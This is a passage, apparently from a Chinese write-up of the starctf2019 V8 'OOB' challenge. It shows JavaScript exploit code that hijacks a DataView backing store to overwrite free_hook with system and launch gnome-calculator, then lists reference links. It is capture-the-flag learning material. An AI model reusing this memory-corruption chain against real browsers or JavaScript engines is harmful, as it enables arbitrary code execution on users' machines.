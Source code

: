 ```javascript
var backing_store_addr = addressOf(data_buf) + 0x20n;

function dataview_write64(addr, data)
{
	write64(backing_store_addr, addr);
	data_view.setFloat64(0, i2f(data), true);
}

function get_shell()
{
	let buffer = new ArrayBuffer(0x1000);
	let dataview = new DataView(buffer);
	dataview.setFloat64(0, i2f(0x6e69622f7273752fn), true); // /usr/bin/gnome-calculator
	dataview.setFloat64(8, i2f(0x632d656d6f6e672fn), true); //
	dataview.setFloat64(16, i2f(0x6f74616c75636c61n), true); // 
	dataview.setFloat64(24, i2f(0x72n), true);
	dataview_write64(free_hook_addr, system_addr);
}
get_shell();
```



### 参考链接

https://eternalsakura13.com/2018/06/26/v8_environment/

https://www.anquanke.com/post/id/207483

https://github.com/sixstars/starctf2019/tree/master/pwn-OOB

https://migraine-sudo.github.io/2020/02/15/v8/